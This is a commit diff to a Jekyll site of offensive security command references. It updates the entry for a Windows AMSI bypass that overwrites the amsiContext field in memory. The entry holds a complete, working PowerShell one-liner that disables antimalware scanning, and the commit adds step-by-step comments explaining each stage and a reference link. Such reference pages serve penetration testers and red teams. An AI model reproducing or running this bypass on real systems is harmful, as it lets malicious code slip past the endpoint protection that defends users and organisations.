

Before and after one commit to arttoolkit/arttoolkit.github.io, a Jekyll site: the page built from _wadcoms/AMSI-Bypass-amsiContext.md, in a window 1280 px wide, cut to the strip 187-764 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
update on existing commands/code

````diff
--- a/_wadcoms/AMSI-Bypass-amsiContext.md
+++ b/_wadcoms/AMSI-Bypass-amsiContext.md
@@ -4,11 +4,13 @@ description: |
 
   Command Reference:
   ```
-  Domain: arttoolkit.hacker.com
+  loop the GetTypes method, searching for all types containing the string “iUtils” in its name
 
-  Port: 9001
+  GetFields accepts filtering modifiers, we’ll apply the NonPublic and Static filters to help narrow the results
 
-  IP address: 10.10.21.14
+  loop through all the fields, searching for a name containing “Context”, as this does not be marked as malicious looking for the amsiContext
+
+  use Copy to overwrite the amsiContext header by copying data (four zeros) from managed to unmanaged memory
   ```
 command: |
   $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
@@ -20,8 +22,7 @@ services:
 OS:
   - Windows
 attack_types:
-  - ATTACK_TYPE
+  - Bypassing
 references:
-  - LINK
-  - LINK
+  - https://gist.github.com/D3Ext/bf57673644ba08e729f65892e0dae6c4
 ---
````
Also changed, not shown: _wadcoms/ShellcodeRunner-VBA.md (+2 -2 lines).
